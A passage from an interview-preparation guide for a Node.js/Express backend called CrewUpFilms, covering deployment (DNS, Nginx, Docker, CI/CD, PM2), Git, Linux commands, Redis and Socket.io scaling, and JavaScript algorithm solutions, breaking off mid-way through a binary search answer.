8. Render automatically builds the container, allocates a TLS certificate, and spins up the live service at `https://crewup-api.onrender.com`.
- **Difficulty**: Easy | **Priority**: P1

### Q95: Hostinger Domain & SSL Setup + CORS Updates
- **Model Answer**:
1. **Domain Acquisition**: Purchase `crewupfilms.com` via Hostinger.
2. **DNS Configuration**: In Hostinger DNS Zone Editor, create an **A Record**:
   - Host: `@` -> Target: `Render/EC2 IP Address`
   - Host: `api` -> Target: `Render CNAME` or `EC2 Elastic IP`
3. **SSL Certificate**: Hostinger includes automatic Let's Encrypt certificates for domains pointing to Hostinger VPS. For external backends, Render and AWS Cert Manager generate and renew SSL automatically.
4. **CORS Updates**: In `server.js`, update `process.env.CLIENT_URL` to include `https://crewupfilms.com,https://www.crewupfilms.com`. The CORS expansion logic will auto-allow both with credentials.
- **Difficulty**: Medium | **Priority**: P1

### Q96: What is a Reverse Proxy? Why Place Nginx in Front of Node.js?
- **Model Answer**: A reverse proxy sits in front of backend web servers, intercepting client requests and forwarding them to backend services.
- **Why Nginx with Node.js**:
  1. *SSL/TLS Termination*: Offloads heavy cryptographic handshakes from the single-threaded Node event loop.
  2. *Static Asset Serving*: Serves images, CSS, and JS files with zero Node.js overhead.
  3. *Gzip/Brotli Compression*: Highly optimized native C compression.
  4. *DDoS and Rate Limiting Protection*: Drops malformed slowloris attacks before they reach Node.
  5. *Load Balancing*: Distributes incoming traffic across multiple PM2 Node worker processes.
- **Difficulty**: Medium | **Priority**: P1

### Q97: EC2 Instance Types: t3 vs c5 vs r5
- **Model Answer**:
- **t3 (Burstable General Purpose)**: Baseline CPU with capability to burst using CPU credits. Cost-effective for dev environments and low-to-medium web traffic (`t3.small`, `t3.medium`).
- **c5 (Compute Optimized)**: High ratio of vCPUs to memory. Ideal for CPU-bound tasks like video rendering, image transcoding, and machine learning fraud detection.
- **r5 (Memory Optimized)**: High RAM capacity. Ideal for in-memory databases like Redis and large relational PostgreSQL caching pools.
- **Difficulty**: Easy | **Priority**: P2

### Q98: AWS Route 53 Routing Policies
- **Model Answer**:
- **Simple Routing**: Maps a domain directly to a single static resource or IP.
- **Weighted Routing**: Distributes traffic across multiple servers based on percentages (e.g., 90% to existing production, 10% to new release for Canary Testing).
- **Latency-Based Routing**: Directs users to the AWS Region that provides the lowest network latency.
- **Failover Routing**: Routes traffic to a secondary standby backup region if health checks on the primary region fail.
- **Difficulty**: Medium | **Priority**: P2

### Q99: Elastic Load Balancer (ALB) and WebSocket Sticky Sessions
- **Model Answer**: An Application Load Balancer (ALB) operates at OSI Layer 7 (HTTP/HTTPS). It inspects HTTP headers and paths, routing `/api/*` to REST servers and `/socket.io/*` to WebSocket servers.
*WebSocket Sticky Sessions*: WebSockets initiate via an HTTP upgrade request. If an ALB uses round-robin load balancing without sticky sessions, initial HTTP long-polling requests might hit Instance A while the subsequent upgrade handshake hits Instance B, causing handshake errors. Enabling Cookie-Based Sticky Sessions guarantees a client's handshake hits the same physical server instance.
- **Difficulty**: Hard | **Priority**: P1

### Q100: Zero-Downtime Deployment Strategies
- **Model Answer**:
- **Rolling Deployment**: Replaces server instances one-by-one. PM2 achieves this locally via `pm2 reload ecosystem.config.js` (reloads workers sequentially without dropping TCP connections).
- **Blue-Green Deployment**: Spins up an identical new environment (Green) running the latest code. Once all health checks pass, the load balancer switches 100% of traffic from Blue to Green. Rollback is instantaneous by pointing the load balancer back to Blue.
- **Canary Deployment**: Routes a small subset (e.g., 5%) of real user traffic to the new version to detect errors before full rollout.
- **Difficulty**: Hard | **Priority**: P2

### Q101: AWS CloudFront CDN Integration
- **Model Answer**: AWS CloudFront is a global Content Delivery Network (CDN) with edge locations worldwide. Placing CloudFront in front of S3 and our Express API ensures:
- Static assets (filmmaker avatars, banners) are cached physically near the client browser, reducing latency from ~300ms to <20ms.
- DDOS Protection via AWS Shield Standard.
- TLS negotiation occurs at the nearest edge server.
- **Difficulty**: Easy | **Priority**: P2

### Q102: Hostinger VPS vs Render vs AWS EC2
- **Model Answer**:
- **Hostinger VPS**: Fixed-cost unmanaged Linux virtual private server. Very cheap ($5–$15/mo), but requires manual OS patching, manual backup configuration, and manual scaling.
- **Render**: Platform as a Service (PaaS). Automates Docker builds, SSL, CI/CD, and preview environments, but pricing scales steeply as memory and bandwidth grow.
- **AWS EC2**: Infrastructure as a Service (IaaS). Maximum control, enterprise security compliance (VPC, IAM), and vast ecosystem integration, but requires higher DevOps operational expertise.
- **Difficulty**: Easy | **Priority**: P3

---

## C9. DevOps: Docker, CI/CD, Linux, Nginx, PM2, and Git

### Q103: Production Multi-Stage Dockerfile for Express Server
- **Model Answer**:
```dockerfile
# Stage 1: Build & Dependencies
FROM node:20-alpine AS builder
WORKDIR /app
COPY package*.json ./
RUN npm ci --omit=dev

# Stage 2: Final Minimal Runtime Image
FROM node:20-alpine AS runner
WORKDIR /app

# Run as non-root user for security
USER node

# Copy dependencies and application source
COPY --chown=node:node --from=builder /app/node_modules ./node_modules
COPY --chown=node:node . .

ENV NODE_ENV=production
ENV PORT=5001
EXPOSE 5001

CMD ["node", "src/server.js"]
```
*Why Multi-Stage*: Keeps the production image minimal (<150MB), eliminates build tools from production, and runs as an unprivileged user (`node`) to satisfy security compliance.
- **Difficulty**: Medium | **Priority**: P1

### Q104: Docker Compose for Express + MongoDB
- **Model Answer**:
```yaml
version: '3.8'

services:
  server:
    build: .
    ports:
      - "5001:5001"
    environment:
      - PORT=5001
      - NODE_ENV=development
      - MONGO_URI=mongodb://mongo:27017/crewup
      - JWT_SECRET=supersecretinterviewjwtkey12345
      - CLIENT_URL=http://localhost:3000
    depends_on:
      - mongo
    volumes:
      - .:/app
      - /app/node_modules
    restart: always

  mongo:
    image: mongo:6.0
    ports:
      - "27017:27017"
    volumes:
      - mongo_data:/data/db

volumes:
  mongo_data:
```
- **Difficulty**: Easy | **Priority**: P1

### Q105: GitHub Actions CI/CD Pipeline
- **Model Answer**: `.github/workflows/deploy.yml`:
```yaml
name: CI/CD Pipeline

on:
  push:
    branches: [ main ]

jobs:
  test-and-build:
    runs-on: ubuntu-latest
    steps:
      - name: Checkout Code
        uses: actions/checkout@v4

      - name: Setup Node.js 20
        uses: actions/setup-node@v4
        with:
          node-version: 20
          cache: 'npm'

      - name: Install Dependencies
        run: npm ci

      - name: Run Linter
        run: npm run lint --if-present

      - name: Run Unit Tests
        run: npm test --if-present

      - name: Deploy to Render
        if: github.ref == 'refs/heads/main'
        run: |
          curl -X POST "${{ secrets.RENDER_DEPLOY_HOOK_URL }}"
```
- **Difficulty**: Medium | **Priority**: P1

### Q106: PM2 Ecosystem Configuration (`ecosystem.config.js`)
- **Model Answer**:
```javascript
module.exports = {
  apps: [
    {
      name: 'crewup-api',
      script: './src/server.js',
      instances: 'max',       // Utilize all available CPU cores
      exec_mode: 'cluster',   // Cluster mode for load balancing
      watch: false,
      max_memory_restart: '800M',
      env_production: {
        NODE_ENV: 'production',
        PORT: 5001
      },
      error_file: './logs/err.log',
      out_file: './logs/out.log',
      merge_logs: true,
      time: true
    }
  ]
};
```
- **Difficulty**: Medium | **Priority**: P1

### Q107: Production Nginx Reverse Proxy Configuration
- **Model Answer**:
```nginx
upstream crewup_backend {
    server 127.0.0.1:5001;
    keepalive 64;
}

server {
    listen 80;
    server_name api.crewupfilms.com;
    return 301 https://$host$request_uri;
}

server {
    listen 443 ssl http2;
    server_name api.crewupfilms.com;

    ssl_certificate /etc/letsencrypt/live/api.crewupfilms.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/api.crewupfilms.com/privkey.pem;

    client_max_body_size 15M;

    location / {
        proxy_pass http://crewup_backend;
        proxy_http_version 1.1;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection "upgrade";
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```
- **Difficulty**: Medium | **Priority**: P1

### Q108: Git Branching Strategy
- **Model Answer**: We follow Gitflow / GitHub Flow:
- `main`: Production-ready, deployed automatically to live environments.
- `develop`: Integration branch where tested features merge.
- `feature/<ticket-description>`: Branched off `develop` for new development.
- `hotfix/<issue>`: Branched directly off `main` for critical production bugfixes, then merged into both `main` and `develop`.
- **Difficulty**: Easy | **Priority**: P2

### Q109: How to Squash Commits Before a Pull Request
- **Model Answer**: Squashing combines messy micro-commits ("fix typo", "wip") into a single clean atomic commit:
```bash
git checkout feature/user-auth
git rebase -i HEAD~4   # Interactively rebase the last 4 commits
```
In the editor, leave the first commit as `pick`, and change the remaining 3 commits to `squash` (or `s`). Save and exit, write a clear descriptive commit message, and push:
```bash
git push origin feature/user-auth --force-with-lease
```
`--force-with-lease` is safer than `--force` because it aborts if someone else pushed commits to the remote branch in the meantime.
- **Difficulty**: Medium | **Priority**: P2

### Q110: Git Rebase vs Git Merge
- **Model Answer**:
- **Git Merge**: Combines two branches by creating a new "merge commit". Preserves complete historical context of branch development. *Drawback*: Can create cluttered, non-linear commit history graphs.
- **Git Rebase**: Takes commits from the current branch and reapplies them one by one onto the tip of the target branch. Re-writes commit hashes to create a clean, linear project history.
*Rule of Thumb*: Rebase local feature branches before merging; never rebase shared public branches like `main`.
- **Difficulty**: Medium | **Priority**: P1

### Q111: Essential Linux Server Commands
- **Model Answer**:
- `ps aux | grep node`: List running Node processes with PID and CPU/RAM usage.
- `top` / `htop`: Real-time interactive CPU and memory monitoring.
- `tail -f -n 100 /var/log/nginx/error.log`: Stream the last 100 lines of Nginx error logs live.
- `find / -name ".env" 2>/dev/null`: Search file system for `.env` files while suppressing permission errors.
- `netstat -tulnp | grep :5001`: Check which process is listening on port 5001.
- `df -h`: Check available disk space on mounted drives.
- **Difficulty**: Easy | **Priority**: P2

### Q112: `node src/server.js` vs `nodemon src/server.js`
- **Model Answer**:
- `node src/server.js`: Standard Node runtime invocation. Loads code into memory once; changes to files on disk are ignored until manually stopped and restarted. Used in production for optimal performance and memory efficiency.
- `nodemon src/server.js`: Development utility that wraps Node.js and monitors file changes (`.js`, `.json`). When files are saved, nodemon automatically restarts the process, enabling rapid development feedback loops.
- **Difficulty**: Easy | **Priority**: P1

### Q113: Docker Images vs Containers vs Volumes
- **Model Answer**:
- **Image**: An immutable, read-only template built from a Dockerfile containing OS libraries, runtime, and application code.
- **Container**: A runnable, isolated instance of an image executed in an isolated user-space process.
- **Volume**: A dedicated storage mechanism managed by Docker outside the container's writable layer, persisting database records (like MongoDB data) across container restarts and updates.
- **Difficulty**: Easy | **Priority**: P2

### Q114: Docker Networking: Bridge vs Host
- **Model Answer**:
- **Bridge Network (Default)**: Creates an isolated internal software bridge network. Containers receive private IPs (e.g., `172.17.0.2`) and can only communicate with other containers on the bridge. Port mapping (`-p 5001:5001`) forwards host traffic into the container.
- **Host Network (`--net=host`)**: Bypasses network isolation; the container directly shares the host machine's network stack. Offers higher network throughput, but eliminates port isolation.
- **Difficulty**: Medium | **Priority**: P3

### Q115: Git Detached HEAD State: Cause and Recovery
- **Model Answer**: A detached HEAD occurs when you checkout a specific commit hash, tag, or remote branch instead of a local branch (`git checkout <commit-hash>`). Any new commits made in this state do not belong to any branch and will be lost during garbage collection if you switch branches.
*Recovery*:
```bash
git branch temp-recovery-branch   # Create a branch preserving your commits
git checkout main
git merge temp-recovery-branch   # Safely integrate the commits
```
- **Difficulty**: Medium | **Priority**: P3

### Q116: Linux File Permissions: chmod, chown, 755 vs 644
- **Model Answer**:
- `chown user:group filename`: Changes user and group ownership of a file.
- `chmod <octal> filename`: Modifies read (4), write (2), and execute (1) permissions for User, Group, and Others.
- **755 (`rwxr-xr-x`)**: Owner can read/write/execute; Group and Others can read/execute. Standard for directories and executable scripts.
- **644 (`rw-r--r--`)**: Owner can read/write; Group and Others can only read. Standard for configuration and source code files (e.g., `.env` should ideally be 600).
- **Difficulty**: Easy | **Priority**: P3

### Q117: Environment Variable Secret Management in CI/CD
- **Model Answer**: Storing secrets (API keys, database URIs, JWT secrets) in Git commits creates fatal security breaches.
*Best Practice*:
1. Store production secrets in GitHub Repository Secrets or AWS Secrets Manager.
2. Inject secrets into CI/CD workflows at runtime via `${{ secrets.JWT_SECRET }}`.
3. On production servers, use dedicated systemd environment files with `chmod 600` permissions.
4. Add `.env*` to `.gitignore`, keeping only `.env.example` in source control.
- **Difficulty**: Easy | **Priority**: P2

---

## C10. Scalability: Redis, Queues, and Real-Time Systems

### Q118: Redis for Session Storage and Token Blacklisting
- **Model Answer**: Redis is an in-memory key-value data store offering microsecond read/write operations.
*Use in CrewUpFilms*:
1. **Token Blacklisting**: When a user logs out before their 7-day JWT expires, write the token to Redis with a TTL matching the token's remaining lifetime: `redis.setex('blacklist:' + token, remainingSeconds, '1')`. The `protect` middleware checks Redis; if the key exists, it rejects the request.
2. **User Session Caching**: Cache authenticated user profile payloads in Redis (`user:${id}`) to bypass redundant MongoDB lookups across rapid successive requests.
- **Difficulty**: Medium | **Priority**: P1

### Q119: Caching the Leaderboard with Redis
- **Model Answer**: The `/api/leaderboard` endpoint aggregates top filmmakers across millions of project documents, which is an expensive database operation.
*Implementation*:
```javascript
const getLeaderboard = async (req, res) => {
  const cacheKey = 'leaderboard:top10';
  const cachedData = await redis.get(cacheKey);
  
  if (cachedData) {
    return res.status(200).json({ success: true, source: 'cache', data: JSON.parse(cachedData) });
  }

  const leaderboard = await Project.aggregate([...]); // Expensive DB calculation
  await redis.setex(cacheKey, 3600, JSON.stringify(leaderboard)); // Cache for 1 hour
  return res.status(200).json({ success: true, source: 'db', data: leaderboard });
};
```
- **Difficulty**: Easy | **Priority**: P1

### Q120: Asynchronous Message Queues (BullMQ) for Emails
- **Model Answer**: In CrewUpFilms `authController.js`, emails are sent synchronously or fire-and-forget. If the SMTP provider takes 5 seconds to respond, the HTTP request hangs or fails silently.
*Solution with BullMQ*:
1. Create a Redis-backed queue: `const emailQueue = new Queue('emails', { connection: redisConfig });`
2. In the controller, push the job and respond immediately:
```javascript
await emailQueue.add('sendOTP', { email: user.email, otp: generatedOtp });
return res.status(200).json({ success: true, message: 'OTP dispatched' });
```
3. A background worker picks up the job:
```javascript
const worker = new Worker('emails', async (job) => {
  await emailService.sendEmail(job.data.email, 'Your OTP', job.data.otp);
}, { connection: redisConfig });
```
BullMQ provides automatic retries with exponential backoff, dead-letter queues, and rate-limited dispatching.
- **Difficulty**: Hard | **Priority**: P1

### Q121: WebSockets vs Server-Sent Events (SSE)
- **Model Answer**:
- **WebSockets**: Full-duplex, bidirectional communication over a single TCP connection. Both client and server can send messages at any time. Ideal for interactive two-way features like chat messaging (`sendMessage`) and typing indicators.
- **Server-Sent Events (SSE)**: Unidirectional streaming over standard HTTP. Only the server can push data to the client; client sends data via standard HTTP POST. Ideal for one-way feeds like live notification counters, stock tickers, or AI token streaming.
- **Difficulty**: Medium | **Priority**: P1

### Q122: Socket.io Fallback: Polling to WebSocket
- **Model Answer**: Socket.io does not start directly with a WebSocket connection. It initiates using HTTP Long-Polling (`transport=polling`). This ensures connections succeed even behind restrictive corporate firewalls, proxies, or antivirus software that block WebSocket upgrades. Once the HTTP handshake succeeds, Socket.io tests if a WebSocket connection can be established. If successful, it upgrades the transport protocol to WebSocket (`transport=websocket`), switching to full-duplex framing.
- **Difficulty**: Medium | **Priority**: P2

### Q123: Scaling Socket.io Horizontally Across Server Instances (Redis Adapter)
- **Model Answer**: By default, Socket.io stores connected sockets in local process memory. If User A connects to Server Instance 1 and User B connects to Server Instance 2, emitting `io.to('user:B').emit(...)` on Server 1 will never reach User B.
*Solution*: Introduce `@socket.io/redis-adapter`:
```javascript
const { createAdapter } = require('@socket.io/redis-adapter');
const { createClient } = require('redis');

const pubClient = createClient({ url: process.env.REDIS_URL });
const subClient = pubClient.duplicate();

Promise.all([pubClient.connect(), subClient.connect()]).then(() => {
  io.adapter(createAdapter(pubClient, subClient));
});
```
When Server 1 emits a message to a room, the Redis adapter publishes the event to a Redis Pub/Sub channel; all server instances receive it and forward it to their locally connected sockets.
- **Difficulty**: Hard | **Priority**: P1

### Q124: Publish/Subscribe (Pub/Sub) vs Notification Post-Save Hook
- **Model Answer**:
- **Current Post-Save Hook**: Synchronously calls `global._io.to(...).emit(...)` directly inside the Mongoose lifecycle hook on the local Node.js process. This tightly couples the database model to the transport layer and fails in multi-server deployments.
- **Pub/Sub Architecture**: The database hook or controller publishes an event to a Redis channel: `redis.publish('notifications', JSON.stringify(notificationDoc))`. A dedicated real-time microservice subscribes to the channel and broadcasts the message over WebSockets. This achieves complete decoupling, fault isolation, and effortless horizontal scaling.
- **Difficulty**: Hard | **Priority**: P1

### Q125: Redis Core Data Structures
- **Model Answer**:
1. **Strings**: Basic text/integers. Used for auth caching and rate-limiting hit counters (`INCR`, `EXPIRE`).
2. **Hashes**: Object representations (`HSET user:100 name "Alice" role "Director"`).
3. **Lists**: Ordered string collections (`LPUSH`, `RPOP`). Used as simple task queues.
4. **Sets**: Unordered unique strings (`SADD project:1:tags "indie" "action"`).
5. **Sorted Sets (ZSET)**: Sets ordered by floating-point scores. Ideal for gaming/creator leaderboards (`ZADD leaderboard 45 "creator_id"`).
- **Difficulty**: Easy | **Priority**: P2

### Q126: Cache Invalidation Strategies
- **Model Answer**: "There are only two hard things in Computer Science: cache invalidation and naming things."
- **Cache-Aside (Lazy Loading)**: Application reads cache; on miss, reads DB, writes to cache, and returns. If data updates, application explicitly invalidates (deletes) the cache key.
- **Write-Through**: Application writes data to the cache and the database simultaneously.
- **Time-to-Live (TTL)**: Keys expire automatically after a set period (e.g., 60 seconds). Ensures stale data clears eventually even if explicit invalidation fails.
- **Difficulty**: Medium | **Priority**: P2

### Q127: Handling WebSocket Reconnection and Missed Messages
- **Model Answer**: If a filmmaker drives into a tunnel, their WebSocket connection drops.
*Strategy*:
1. Socket.io automatically attempts reconnection with exponential backoff.
2. The client tracks the timestamp or ID of the last received message (`lastMessageAt`).
3. Upon reconnect, the client emits `syncMessages({ conversationId, since: lastMessageAt })`.
4. The backend queries MongoDB/PostgreSQL: `Message.find({ conversationId, createdAt: { $gt: since } })` and returns the missed message delta, ensuring zero message loss.
- **Difficulty**: Hard | **Priority**: P2


---

## C11. Data Structures, Algorithms, and OOP

### Part 1: 40 Core JavaScript Coding Questions (Algorithms & Data Structures)

#### 1. Two Sum (Hash Map)
- **Problem**: Given an array of integers `nums` and an integer `target`, return indices of the two numbers that add up to `target`.
- **Code**:
```javascript
function twoSum(nums, target) {
  const map = new Map(); // value -> index
  for (let i = 0; i < nums.length; i++) {
    const complement = target - nums[i];
    if (map.has(complement)) {
      return [map.get(complement), i];
    }
    map.set(nums[i], i);
  }
  return [];
}
```
- **Complexity**: Time: $O(N)$ (single pass) | Space: $O(N)$ (hash map storage)
- **Thinking Steps**: Rather than checking all pairs in $O(N^2)$, store previously seen numbers in a hash map. For each number, compute `target - num` and check if that complement exists in the map.

#### 2. Maximum Subarray (Kadane’s Algorithm)
- **Problem**: Find the contiguous subarray with the largest sum and return its sum.
- **Code**:
```javascript
function maxSubArray(nums) {
  let currentSum = nums[0];
  let maxSum = nums[0];
  for (let i = 1; i < nums.length; i++) {
    // Either extend the existing subarray or start fresh from current element
    currentSum = Math.max(nums[i], currentSum + nums[i]);
    maxSum = Math.max(maxSum, currentSum);
  }
  return maxSum;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(1)$
- **Thinking Steps**: At each element, decide whether adding it to the accumulated sum is better than starting a brand new subarray from that element.

#### 3. Rotate Array
- **Problem**: Rotate an array to the right by `k` steps.
- **Code**:
```javascript
function rotate(nums, k) {
  k = k % nums.length;
  const reverse = (arr, start, end) => {
    while (start < end) {
      [arr[start], arr[end]] = [arr[end], arr[start]];
      start++;
      end--;
    }
  };
  reverse(nums, 0, nums.length - 1); // 1. Reverse entire array
  reverse(nums, 0, k - 1);           // 2. Reverse first k elements
  reverse(nums, k, nums.length - 1); // 3. Reverse remaining elements
  return nums;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(1)$ in-place
- **Thinking Steps**: Three-step reversal technique: reversing the entire array places target elements at the front, then reversing sub-segments restores their original relative order.

#### 4. Find Duplicate Number
- **Problem**: Given an array of $N+1$ integers between $1$ and $N$, find the one duplicate without modifying the array using $O(1)$ extra space.
- **Code**:
```javascript
function findDuplicate(nums) {
  // Floyd's Tortoise and Hare (Cycle Detection)
  let slow = nums[0];
  let fast = nums[0];
  do {
    slow = nums[slow];
    fast = nums[nums[fast]];
  } while (slow !== fast);

  let ptr1 = nums[0];
  let ptr2 = slow;
  while (ptr1 !== ptr2) {
    ptr1 = nums[ptr1];
    ptr2 = nums[ptr2];
  }
  return ptr1;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(1)$
- **Thinking Steps**: Treat the array as a linked list where `nums[i]` is the pointer to the next node. Because of the duplicate, a cycle must exist. Find the intersection with slow/fast pointers, then locate the entrance to the cycle.

#### 5. Merge Intervals
- **Problem**: Given an array of intervals, merge all overlapping intervals.
- **Code**:
```javascript
function merge(intervals) {
  if (!intervals.length) return [];
  intervals.sort((a, b) => a[0] - b[0]); // Sort by start time
  const merged = [intervals[0]];

  for (let i = 1; i < intervals.length; i++) {
    const current = intervals[i];
    const last = merged[merged.length - 1];

    if (current[0] <= last[1]) {
      // Overlap detected: extend end boundary
      last[1] = Math.max(last[1], current[1]);
    } else {
      merged.push(current);
    }
  }
  return merged;
}
```
- **Complexity**: Time: $O(N \log N)$ (sorting) | Space: $O(N)$
- **Thinking Steps**: Sorting by interval start time ensures all potentially overlapping intervals are adjacent. Compare each interval's start with the prior merged interval's end.

#### 6. Move Zeroes
- **Problem**: Move all `0`s to the end of an array while maintaining the relative order of non-zero elements in-place.
- **Code**:
```javascript
function moveZeroes(nums) {
  let insertPos = 0;
  for (let i = 0; i < nums.length; i++) {
    if (nums[i] !== 0) {
      [nums[insertPos], nums[i]] = [nums[i], nums[insertPos]];
      insertPos++;
    }
  }
  return nums;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(1)$
- **Thinking Steps**: Two-pointer approach: pointer `insertPos` tracks the index where the next non-zero number should go. Swap whenever a non-zero element is found.

#### 7. Reverse String
- **Problem**: Reverse an array of characters in-place.
- **Code**:
```javascript
function reverseString(s) {
  let left = 0, right = s.length - 1;
  while (left < right) {
    [s[left], s[right]] = [s[right], s[left]];
    left++;
    right--;
  }
  return s;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(1)$
- **Thinking Steps**: Two pointers converging from outer edges swapping characters until they meet.

#### 8. Valid Anagram
- **Problem**: Given two strings `s` and `t`, return `true` if `t` is an anagram of `s`.
- **Code**:
```javascript
function isAnagram(s, t) {
  if (s.length !== t.length) return false;
  const count = {};
  for (const char of s) count[char] = (count[char] || 0) + 1;
  for (const char of t) {
    if (!count[char]) return false;
    count[char]--;
  }
  return true;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(1)$ (at most 26 lowercase English characters)
- **Thinking Steps**: Count character frequencies with a hash map. Decrement frequencies with the second string; if any count drops below zero or characters are missing, return false.

#### 9. Longest Substring Without Repeating Characters
- **Problem**: Find the length of the longest substring without repeating characters.
- **Code**:
```javascript
function lengthOfLongestSubstring(s) {
  const seen = new Map(); // char -> last seen index
  let maxLen = 0, left = 0;

  for (let right = 0; right < s.length; right++) {
    const char = s[right];
    if (seen.has(char) && seen.get(char) >= left) {
      left = seen.get(char) + 1; // Jump left window boundary
    }
    seen.set(char, right);
    maxLen = Math.max(maxLen, right - left + 1);
  }
  return maxLen;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(\min(N, M))$ where $M$ is alphabet size
- **Thinking Steps**: Sliding window pattern. Expand `right` pointer. If a duplicate character is encountered inside the current window, move `left` pointer to one past the previous occurrence.

#### 10. Valid Palindrome
- **Problem**: Check if a string is a palindrome, considering only alphanumeric characters and ignoring cases.
- **Code**:
```javascript
function isPalindrome(s) {
  const clean = s.toLowerCase().replace(/[^a-z0-9]/g, '');
  let left = 0, right = clean.length - 1;
  while (left < right) {
    if (clean[left] !== clean[right]) return false;
    left++;
    right--;
  }
  return true;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(N)$
- **Thinking Steps**: Strip non-alphanumeric characters with regex, convert to lowercase, then compare mirrored characters with two converging pointers.

#### 11. Reverse Linked List
- **Problem**: Reverse a singly linked list.
- **Code**:
```javascript
function reverseList(head) {
  let prev = null;
  let curr = head;
  while (curr !== null) {
    const nextTemp = curr.next; // Save next pointer
    curr.next = prev;           // Reverse pointer
    prev = curr;                // Advance prev
    curr = nextTemp;            // Advance curr
  }
  return prev;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(1)$
- **Thinking Steps**: Iterate through nodes, tracking `prev`, `curr`, and `nextTemp` pointers, flipping `curr.next` to point backwards at each step.

#### 12. Middle of the Linked List
- **Problem**: Return the middle node of a singly linked list.
- **Code**:
```javascript
function middleNode(head) {
  let slow = head, fast = head;
  while (fast !== null && fast.next !== null) {
    slow = slow.next;
    fast = fast.next.next;
  }
  return slow;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(1)$
- **Thinking Steps**: Fast and slow pointer technique. When `fast` moves 2 steps and `slow` moves 1 step, by the time `fast` reaches the end, `slow` is exactly at the midpoint.

#### 13. Detect Cycle in Linked List
- **Problem**: Determine if a linked list has a cycle.
- **Code**:
```javascript
function hasCycle(head) {
  let slow = head, fast = head;
  while (fast !== null && fast.next !== null) {
    slow = slow.next;
    fast = fast.next.next;
    if (slow === fast) return true;
  }
  return false;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(1)$
- **Thinking Steps**: Floyd's Cycle-Finding Algorithm. If there is a loop, the fast pointer will inevitably lap and collide with the slow pointer.

#### 14. Binary Tree Level Order Traversal (BFS)
- **Problem**: Return level-by-level traversal of a binary tree's node values.
- **Code**:
```javascript
function levelOrder(root) {
  if (!root) return [];
  const result = [];
  const queue = [root];

  while (queue.length > 0) {
    const levelSize = queue.length;
    const currentLevel = [];

    for (let i = 0; i < levelSize; i++) {
      const node = queue.shift();
      currentLevel.push(node.val);
      if (node.left) queue.push(node.left);
      if (node.right) queue.push(node.right);
    }
    result.push(currentLevel);
  }
  return result;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(N)$
- **Thinking Steps**: Use a FIFO queue. Record `queue.length` at the start of each level to dequeue exactly that level's nodes before proceeding to child nodes.

#### 15. Maximum Depth of Binary Tree
- **Problem**: Find the maximum depth of a binary tree.
- **Code**:
```javascript
function maxDepth(root) {
  if (root === null) return 0;
  const leftDepth = maxDepth(root.left);
  const rightDepth = maxDepth(root.right);
  return 1 + Math.max(leftDepth, rightDepth);
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(H)$ recursion stack where $H$ is tree height
- **Thinking Steps**: Post-order recursive traversal: the height of any node is $1 + \max(\text{depth of left subtree}, \text{depth of right subtree})$.

#### 16. Validate Binary Search Tree
- **Problem**: Determine if a binary tree is a valid Binary Search Tree (BST).
- **Code**:
```javascript
function isValidBST(root, min = -Infinity, max = Infinity) {
  if (root === null) return true;
  if (root.val <= min || root.val >= max) return false;
  return isValidBST(root.left, min, root.val) && isValidBST(root.right, root.val, max);
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(H)$
- **Thinking Steps**: A node's value must not only be greater than its left child, but strictly within the bounded range $(min, max)$ inherited from all ancestor nodes.

#### 17. Bubble Sort
- **Problem**: Implement bubble sort on an array of numbers.
- **Code**:
```javascript
function bubbleSort(arr) {
  const n = arr.length;
  for (let i = 0; i < n - 1; i++) {
    let swapped = false;
    for (let j = 0; j < n - i - 1; j++) {
      if (arr[j] > arr[j + 1]) {
        [arr[j], arr[j + 1]] = [arr[j + 1], arr[j]];
        swapped = true;
      }
    }
    if (!swapped) break; // Optimization: early exit if already sorted
  }
  return arr;
}
```
- **Complexity**: Time: Best $O(N)$, Worst $O(N^2)$ | Space: $O(1)$
- **Thinking Steps**: Repeatedly swap adjacent elements that are out of order. With each pass, the next largest element "bubbles up" to its final sorted position.

#### 18. Merge Sort
- **Problem**: Implement Merge Sort.
- **Code**:
```javascript
function mergeSort(arr) {
  if (arr.length <= 1) return arr;
  const mid = Math.floor(arr.length / 2);
  const left = mergeSort(arr.slice(0, mid));
  const right = mergeSort(arr.slice(mid));

  return merge(left, right);
}

function merge(left, right) {
  const result = [];
  let i = 0, j = 0;
  while (i < left.length && j < right.length) {
    if (left[i] <= right[j]) result.push(left[i++]);
    else result.push(right[j++]);
  }
  return result.concat(left.slice(i)).concat(right.slice(j));
}
```
- **Complexity**: Time: $O(N \log N)$ in all cases | Space: $O(N)$
- **Thinking Steps**: Divide and Conquer: recursively divide the array in half until single elements remain, then merge sorted sub-arrays in linear time.

#### 19. Quick Sort
- **Problem**: Implement Quick Sort in JavaScript.
- **Code**:
```javascript
function quickSort(arr, low = 0, high = arr.length - 1) {
  if (low < high) {
    const pivotIndex = partition(arr, low, high);
    quickSort(arr, low, pivotIndex - 1);
    quickSort(arr, pivotIndex + 1, high);
  }
  return arr;
}

function partition(arr, low, high) {
  const pivot = arr[high];
  let i = low - 1;
  for (let j = low; j < high; j++) {
    if (arr[j] < pivot) {
      i++;
      [arr[i], arr[j]] = [arr[j], arr[i]];
    }
  }
  [arr[i + 1], arr[high]] = [arr[high], arr[i + 1]];
  return i + 1;
}
```
- **Complexity**: Time: Average $O(N \log N)$, Worst $O(N^2)$ | Space: $O(\log N)$
- **Thinking Steps**: Choose a pivot, partition elements smaller than pivot to the left and larger to the right, then recursively sort partitions.

#### 20. Binary Search
- **Problem**: Search for a `target` in a sorted array and return its index, or `-1`.
- **Code**:
```javascript
function binarySearch(nums, target) {
  let left = 0, right = nums.length - 1;
  while (left <= right) {
